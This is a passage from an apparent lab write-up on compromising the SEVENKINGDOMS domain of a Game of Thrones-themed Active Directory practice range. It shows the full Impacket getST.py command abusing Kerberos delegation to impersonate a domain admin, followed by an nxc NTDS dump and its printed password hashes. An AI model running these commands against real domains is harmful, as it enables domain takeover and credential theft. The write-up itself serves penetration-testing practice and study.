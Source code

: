 Next, I used the `getST.py` Impacket tool to request the Kerberos ticket for the `CIFS` service of the DC so that I could dump hashes. This is similar to what I initially did to compromise the `NORTH` domain by abusing delegation rights granted to `JON.SNOW`.

One last piece of the puzzle was a DA account to impersonate. The `Administrator` account would often suffice, but to keep it thematic I picked one of the GOT characters instead. I checked Bloodhound and saw that `CERSEI.LANNISTER` and `ROBERT.BARATHEON` were both DAs. Let’s pick on the Lannisters in this case.

```
# getST.py -spn "CIFS/KINGSLANDING.SEVENKINGDOMS.LOCAL" -impersonate "cersei.lannister" sevenkingdoms.local/intruder\$:secretpass1234 -dc-ip 10.2.10.10

Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating cersei.lannister
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in cersei.lannister.ccache
```

To complete the attack, I dumped the hashes for `SEVENKINGDOMS`.

```
# KRB5CCNAME=./cersei.lannister.ccache nxc smb 10.2.10.10 --use-kcache --ntds

[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n]
SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\cersei.lannister from ccache (Pwn3d!)
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.2.10.10      445    KINGSLANDING     Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
SMB         10.2.10.10      445    KINGSLANDING     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.2.10.10      445    KINGSLANDING     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0637ab576c34b0072d09cda7dbc7e667:::
SMB         10.2.10.10      445    KINGSLANDING     localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
SMB         10.2.10.10      445    KINGSLANDING     tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
SMB         10.2.10.10      445    KINGSLANDING     jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
SMB         10.2.10.10      445    KINGSLANDING     cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
SMB         10.2.10.10      445    KINGSLANDING     tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
SMB         10.2.10.10      445    KINGSLANDING     robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
SMB         10.2.10.10      445    KINGSLANDING     joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
SMB         10.2.10.10      445    KINGSLANDING     renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
SMB         10.2.10.10      445    KINGSLANDING     stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
SMB         10.2.10.10      445    KINGSLANDING     petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
SMB         10.2.10.10      445    KINGSLANDING     lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
SMB         10.2.10.10      445    KINGSLANDING     maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
```